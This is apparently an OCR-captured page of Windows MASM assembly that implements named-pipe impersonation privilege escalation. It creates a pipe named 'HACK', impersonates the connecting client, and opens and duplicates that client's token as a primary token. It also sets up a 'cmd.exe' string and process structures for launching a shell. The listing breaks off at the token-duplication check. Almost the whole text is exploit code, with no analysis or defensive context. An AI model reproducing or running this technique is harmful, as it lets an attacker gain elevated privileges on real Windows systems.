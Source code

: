 ```


.data
    namedPipeName   db "\\.\Pipe\HACK", 0
    testWrite db "This is a hack", 0
    cmd dw "c","m","d",".","e","x","e", 0 ; UNICODE -> WORD
    ;cmd db "cmd.exe", 0 ; ANSI -> BYTE

.data?
    BytesWritten   DWORD ?
    token          DWORD ?
    newtoken       DWORD ?
    startinfo      STARTUPINFOA         <>
    procinfo       PROCESS_INFORMATION <>

.code

Start PROC

    ; 3: PIPE_ACCESS_DUPLEX ;  4: PIPE_TYPE_MESSAGE
    invoke CreateNamedPipeA, addr namedPipeName ,3, 4, 1, 1024, 1024, 0, 0 

    mov ebx, eax
    invoke ConnectNamedPipe, ebx, 0
    cmp eax, 0
    jnz ConnectNamedPipeOk
    invoke CloseHandle, ebx
    jmp exit

ConnectNamedPipeOk:

    invoke WriteFile, ebx, addr testWrite, 14, addr BytesWritten, 0 
    cmp eax, 0
    jnz WriteFileOk
    invoke CloseHandle, ebx
    jmp exit

WriteFileOk:
    invoke ImpersonateNamedPipeClient, ebx
    ;invoke GetLastError
    cmp eax, 0
    jnz ImpersonateOk
    jmp exit

ImpersonateOk:

    invoke GetCurrentThread
    ; F01FF: TOKEN_ALL_ACCESS
    invoke OpenThreadToken, eax, 0F01FFh, 0, addr token
    cmp eax, 0
    jnz OpenThreadTokenOk
    jmp exit


OpenThreadTokenOk:
    
    ;http://pinvoke.net/default.aspx/Enums.SECURITY_IMPERSONATION_LEVEL
    ; F01FF: TOKEN_ALL_ACCESS
    ; TokenPrimary: 1
    invoke DuplicateTokenEx, token, 0F01FFh, 0, 3, 1, addr newtoken
    ;invoke GetLastError
    cmp eax, 0
    jnz DuplicateTokenOk
```